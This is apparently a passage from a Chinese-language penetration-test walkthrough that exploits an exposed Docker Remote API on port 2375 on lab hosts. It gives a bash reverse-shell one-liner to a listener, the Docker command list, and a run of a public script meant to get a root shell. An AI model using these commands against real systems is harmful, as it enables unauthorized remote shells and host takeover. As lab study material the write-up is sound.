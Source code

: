 反弹shell：

```
bash -i >& /dev/tcp/172.26.1.156/6666 0>&1
```
接收shell：
![图片](https://uploader.shimo.im/f/dzCoBNzigWYQHjn0.png!thumbnail)

### 可以使用的命令：
```
Commands:
  attach      Attach local standard input, output, and error streams to a running container
  build       Build an image from a Dockerfile
  commit      Create a new image from a container's changes
  cp          Copy files/folders between a container and the local filesystem
  create      Create a new container
  diff        Inspect changes to files or directories on a container's filesystem
  events      Get real time events from the server
  exec        Run a command in a running container
  export      Export a container's filesystem as a tar archive
  history     Show the history of an image
  images      List images
  import      Import the contents from a tarball to create a filesystem image
  info        Display system-wide information
  inspect     Return low-level information on Docker objects
  kill        Kill one or more running containers
  load        Load an image from a tar archive or STDIN
  login       Log in to a Docker registry
  logout      Log out from a Docker registry
  logs        Fetch the logs of a container
  pause       Pause all processes within one or more containers
  port        List port mappings or a specific mapping for the container
  ps          List containers
  pull        Pull an image or a repository from a registry
  push        Push an image or a repository to a registry
  rename      Rename a container
  restart     Restart one or more containers
  rm          Remove one or more containers
  rmi         Remove one or more images
  run         Run a command in a new container
  save        Save one or more images to a tar archive (streamed to STDOUT by def                                                              ault)
  search      Search the Docker Hub for images
  start       Start one or more stopped containers
  stats       Display a live stream of container(s) resource usage statistics
  stop        Stop one or more running containers
  tag         Create a tag TARGET_IMAGE that refers to SOURCE_IMAGE
  top         Display the running processes of a container
  unpause     Unpause all processes within one or more containers
  update      Update configuration of one or more containers
  version     Show the Docker version information
  wait        Block until one or more containers stop, then print their exit codes                         
```
## 使用GitHub上的脚本对该漏洞进行利用：
1. 查看运行的容器：
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375
```
截图:
![图片](https://uploader.shimo.im/f/rvjQ6CHuzckK75Sk.png!thumbnail)
